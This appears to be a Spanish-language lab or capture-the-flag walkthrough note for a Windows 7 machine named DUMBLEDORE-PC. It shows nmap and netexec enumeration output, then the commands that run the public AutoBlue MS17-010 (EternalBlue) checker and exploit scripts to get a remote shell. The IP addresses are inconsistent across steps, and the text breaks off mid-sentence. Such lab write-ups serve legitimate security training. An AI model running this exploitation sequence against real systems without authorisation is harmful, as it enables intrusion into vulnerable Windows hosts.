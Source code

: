 [[192.168.100.7(Nagini)]]

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipcoin`

